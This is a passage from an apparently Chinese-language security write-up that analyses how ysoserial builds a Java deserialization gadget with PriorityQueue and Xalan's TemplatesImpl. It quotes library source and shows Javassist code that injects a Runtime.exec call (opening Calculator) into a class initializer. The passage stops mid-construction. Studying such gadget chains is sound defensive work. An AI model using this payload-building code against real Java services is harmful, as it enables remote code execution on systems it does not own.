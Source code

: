 ```java
                _auxClasses.put(_class[i].getName(), _class[i]);
            }
        }

        if (_transletIndex < 0) {
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
    catch (ClassFormatError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
    catch (LinkageError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
}
```

到了这里会判断`_bytecodes`是否为`null`，并创建一个类加载器在后续获取`_bytecodes`数组中的内容后调用`defineClass`，从而执行静态代码块的内容，达成命令执行的目的。

这里从代码逻辑的角度看`_bytecodes`的大小没有特意设定为`2`的必要，但`ysoserial`却好像多放了一个多余的`Foo.class`。

完整构造`PriorityQueue`的代码如下

```java
public static class StubTransletPayload extends AbstractTranslet implements Serializable {
    private static final long serialVersionUID = -5971610431559700674L;

    @Override
    public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}

    @Override
    public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
}

Class templateClazz = null;
Class absTransletClazz = null;
Class tsfFacImplClazz = null;
if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
    templateClazz = Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl");
    absTransletClazz = Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet");
    tsfFacImplClazz = Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl");
} else {
    templateClazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
    absTransletClazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
    tsfFacImplClazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl");
}

ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
pool.insertClassPath(new ClassClassPath(absTransletClazz));

CtClass clazz = pool.get(StubTransletPayload.class.getName());
String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";

clazz.makeClassInitializer().insertAfter(cmd);
clazz.setName("ysoserial.Pwner" + System.nanoTime());
CtClass superC = pool.get(absTransletClazz.getName());
```